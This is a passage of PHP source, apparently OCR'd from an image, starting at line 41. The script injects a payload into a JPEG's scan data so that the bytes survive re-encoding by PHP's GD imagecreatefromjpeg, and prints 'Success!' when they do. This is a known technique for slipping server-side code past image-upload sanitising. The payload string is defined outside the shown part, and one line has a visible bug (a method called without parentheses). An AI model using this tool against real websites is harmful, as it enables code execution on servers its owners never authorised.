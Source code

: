 ```
 41        $outStream = file_get_contents($argv[1]);
 42        $extraBytes = 0;
 43        $correctImage = TRUE;
 44
 45        if($dis->readShort() != 0xFFD8) {
 46            die('Incorrect SOI marker');
 47        }
 48
 49        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
 50            $marker = $dis->readByte();
 51            $size = $dis->readShort() - 2;
 52            $dis->skip($size);
 53            if($marker === 0xDA) {
 54                $startPos = $dis->seek();
 55                $outStreamTmp = 
 56                    substr($outStream, 0, $startPos) . 
 57                    $miniPayload . 
 58                    str_repeat("\0",$nullbytePayloadSize) . 
 59                    substr($outStream, $startPos);
 60                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
 61                if($extraBytes !== 0) {
 62                    while((!$dis->eof())) {
 63                        if($dis->readByte() === 0xFF) {
 64                            if($dis->readByte !== 0x00) {
 65                                break;
 66                            }
 67                        }
 68                    }
 69                    $stopPos = $dis->seek() - 2;
 70                    $imageStreamSize = $stopPos - $startPos;
 71                    $outStream = 
 72                        substr($outStream, 0, $startPos) . 
 73                        $miniPayload . 
 74                        substr(
 75                            str_repeat("\0",$nullbytePayloadSize).
 76                                substr($outStream, $startPos, $imageStreamSize),
 77                            0,
 78                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
 79                                substr($outStream, $stopPos);
 80                } elseif($correctImage) {
 81                    $outStream = $outStreamTmp;
 82                } else {
 83                    break;
 84                }
 85                if(checkImage('payload_'.$argv[1], $outStream)) {
 86                    die('Success!');
 87                } else {
 88                    break;
 89                }
 90            }
 91        }
 92    }
 93    unlink('payload_'.$argv[1]);
 94    die('Something\'s wrong');
 95
 96    function checkImage($filename, $data, $unlink = FALSE) {
 97        global $correctImage;
 98        file_put_contents($filename, $data);
 99        $correctImage = TRUE;
100        imagecreatefromjpeg($filename);
101        if($unlink)
102            unlink($filename);
103        return $correctImage;
```